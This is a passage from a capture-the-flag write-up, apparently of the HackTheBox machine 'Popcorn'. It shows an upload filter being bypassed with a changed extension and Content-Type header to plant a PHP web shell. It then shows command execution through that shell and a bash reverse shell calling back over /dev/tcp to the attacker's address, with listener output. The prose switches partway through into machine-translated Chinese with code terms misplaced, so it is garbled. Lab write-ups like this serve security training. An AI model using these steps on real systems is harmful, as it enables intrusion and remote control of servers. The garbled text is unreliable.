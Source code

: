 I’ll find the allowed upload of a PNG in Burp and send it to Repeater. There are three common ways that a website will check for valid file types by comparing them to an allow- or deny-list:

*   file extension
*   `Content-Type` header
*   [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)

I’ll start by changing one at a time to see if the site blocks. First, I’ll change the extension to . It doesn’t seem to mind:`.php`

[![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200621124500483.png)_Click for full size image_](https://0xdf.gitlab.io/img/image-20200621124500483.png)

That is a real security vulnerability, because a server should never allow a user to upload anything that can be named , as then the server is likely to execute it as PHP code.`.php`

If I change the header to , it blocks it (even with the file name changed back to :`Content-Type``application/x-php``.png`

[![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200621124643359.png)_点击查看全尺寸图片_](https://0xdf.gitlab.io/img/image-20200621124643359.png)

更改内容似乎并不重要：

[![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200621124754152.png)_点击查看全尺寸图片_](https://0xdf.gitlab.io/img/image-20200621124754152.png)

### 上传

根据过滤器测试，似乎我可以命名一个文件并包含PHP代码，只要我将 更改为有效的图像。`.php``Content-Type`

[![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200621124856522.png)_点击查看全尺寸图片_](https://0xdf.gitlab.io/img/image-20200621124856522.png)

我将从中继器发送它（或者我可以通过表单再次上传shell，并使用代理来拦截请求并修改它）。

当我检查时，那里有一个PHP文件（似乎以SHA1哈希值命名）：`/torrent/upload`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200621125015779.png) 

它给出了执行力：

    root@kali# curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### 壳

要获得一个外壳，我将作为反向外壳开始并传递：`nc``cmd`

    root@kali# curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'"
    

在：`nc`

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.6.
    Ncat: Connection from 10.10.10.6:33054.
    bash: no job control in this shell
    www-data@popcorn:/var/www/torrent/upload$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    